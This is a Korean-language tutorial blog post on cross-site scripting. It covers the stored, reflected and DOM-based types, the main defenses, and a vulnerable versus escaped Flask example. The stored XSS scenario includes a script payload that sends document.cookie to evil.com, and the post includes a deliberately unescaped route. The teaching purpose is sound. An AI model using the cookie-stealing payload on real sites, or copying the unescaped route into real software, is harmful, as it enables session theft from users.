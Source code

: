 ```yaml
---
layout: post
title:  XSS 취약점
date:   2025-06-19
category: security
image: assets/img/blog/image.png
author: 최진혁
tags: xss, web-security
---
```


### XSS란 무엇일까요?

* **정의:** XSS(Cross-Site Scripting)는 웹 페이지에 사용자가 입력한 내용을 필터링 없이 그대로 출력할 때, 공격자가 악성 스크립트를 삽입하여 다른 사용자의 브라우저에서 실행되도록 하는 취약점입니다.
* **영향:**  
    * **쿠키·세션 탈취:** `document.cookie` 등을 통해 인증 정보가 외부로 전송될 수 있습니다.  
    * **피싱·UI 변조:** 페이지 내용을 조작해 가짜 로그인 폼이나 입력창을 띄울 수 있습니다.  
    * **권한 상승:** 악성 스크립트를 통해 관리자 기능을 탈취하거나 실행할 수 있습니다.

---

## 2. XSS의 유형

1. **Stored XSS (영구형):**  
   공격 코드를 데이터베이스, 게시판, 댓글 등에 저장해 다른 사용자가 접근할 때마다 실행되도록 함.  
2. **Reflected XSS (반사형):**  
   URL 파라미터나 폼 입력값에 공격 코드를 넣으면 즉시 응답 페이지에 반영되어 실행됨.  
3. **DOM-Based XSS:**  
   클라이언트 측 자바스크립트에서 `innerHTML`, `document.write` 등을 통해 동적으로 삽입 시 발생.

---

## 3. 공격 시나리오

- **Stored XSS 예시:**  
  게시판에 `<script>new Image().src="https://evil.com/steal?c="+encodeURIComponent(document.cookie)</script>` 를 남기면, 모든 방문자가 쿠키를 탈취당함.
- **Reflected XSS 예시:**  
  `https://victim.com/search?q=<script>alert('XSS')</script>` 링크를 열 때마다 스크립트가 즉시 실행됨.
- **DOM-Based XSS 예시:**  
  `document.getElementById('output').innerHTML = location.hash.substring(1);` 코드가 `<div id="output">`에 해시값을 그대로 출력.

---

## 4. 방어 방법

1. **출력 시 이스케이프 처리**  
   모든 사용자 입력값을 HTML 특수문자로 변환(`&lt;`, `&gt;`, `&quot;`, `&#x27;` 등).
2. **Content Security Policy (CSP) 적용**  
   인라인 스크립트나 외부 스크립트 로딩을 엄격히 제한.
3. **HTTPOnly & Secure 쿠키**  
   `document.cookie` 접근을 차단하고 HTTPS 전송만 허용.
4. **라이브러리 활용**  
   React/Vue 같은 프레임워크의 자동 이스케이프 기능 또는 OWASP ESAPI 사용.

---

## 5. 예시 코드 (Flask + Jinja2)

```python
# 취약한 코드: 필터링 없이 바로 출력
@app.route('/search')
def search():
    query = request.args.get('q')
    return f"<h1>검색 결과: {query}</h1>"

# 안전한 코드: Jinja2 자동 이스케이프 활용
@app.route('/search-safe')
def search_safe():
    query = request.args.get('q')
    return render_template('search.html', query=query)
```

```html
<!-- templates/search.html -->
<!DOCTYPE html>
<html>
  <head><meta charset="utf-8"><title>검색</title></head>
  <body>
    <h1>검색 결과: {{ query }}</h1>
  </body>
</html>
```

---

XSS는 단순하지만 가장 흔하게 발견되는 취약점 중 하나입니다.  
작은 실수 한 번이 큰 보안 사고로 이어질 수 있으니, 언제나 입력값을 믿지 말고 “출력 시 반드시 이스케이프!”를 기억하세요.  
